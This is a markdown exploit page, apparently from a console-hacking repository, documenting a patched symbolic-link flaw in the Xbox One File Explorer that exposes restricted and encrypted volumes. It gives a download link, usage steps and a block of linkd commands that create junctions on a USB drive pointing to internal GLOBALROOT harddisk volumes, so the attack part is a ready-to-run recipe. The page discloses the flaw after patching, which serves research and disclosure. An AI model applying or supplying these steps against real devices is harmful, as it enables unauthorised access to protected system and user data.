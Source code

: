 # File Explorer - Symbolic links vulnerability

## Metadata
|                             |                                                     |
|-----------------------------|-----------------------------------------------------|
|Release date                 |                                          02.06.2017 |
|Author                       |                                            xenomega |
|Classification               |                                         File Access |
|Patched                      |                                                 yes |
|Patch date                   |                                          05.05.2017 |
|First patched system version | 10.0.15063.2022 (RS2_RELEASE_XBOX_1704.170501-1052) |
|Source                       |                https://github.com/Xenomega/xsymlink |
|Download                     |                      [Download](files/xsymlink.zip) |

## Info
Access restricted/encrypted volumes using the Xbox File Explorer.

- Patched as of 5/5/2017: 10.0.15063.2022 (RS2_RELEASE_XBOX_1704.170501-1052).  Thus in accordance with responsible disclosure.
- The Xbox One File Explorer does not check if a path is a symbolic link elsewhere, allowing an attacker to browse/read/write to mounted volumes which are normally restricted.
- This includes any encrypted virtual harddisk partitions (XVD files) which the console mounts for content such as gamesaves, etc.

## Prerequisites
- Download Windows Server 2003 Resource Kit Tools, from which you'll need the "linkd" utility, as the program relies on it to create links, since mklink does not link to paths that do not exists, and the paths we intend to link to are likely non-existent on your computer.

## Instructions
 - Change the drive letter to your USB drive letter in Program.cs  
 - Run it  
 - Plug it into Xbox, use File Browser to browse through the symlinks, which will link to other parts of the system.

## Manual instructions

The following snippet assume that your usb flash drive is mounted to `E:\` on your computer that's executing linkd.

```
mkdir E:\symlinks
linkd.exe E:\symlinks\Volume0\ \\?\GLOBALROOT\Device\HarddiskVolume0\
linkd.exe E:\symlinks\Volume1\ \\?\GLOBALROOT\Device\HarddiskVolume1\
linkd.exe E:\symlinks\Volume2\ \\?\GLOBALROOT\Device\HarddiskVolume2\
linkd.exe E:\symlinks\Volume3\ \\?\GLOBALROOT\Device\HarddiskVolume3\
linkd.exe E:\symlinks\Volume4\ \\?\GLOBALROOT\Device\HarddiskVolume4\
linkd.exe E:\symlinks\Volume5\ \\?\GLOBALROOT\Device\HarddiskVolume5\
... etc ...
```

**NOTE**: You might be able to use [`junction.exe` from Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/junction) too!
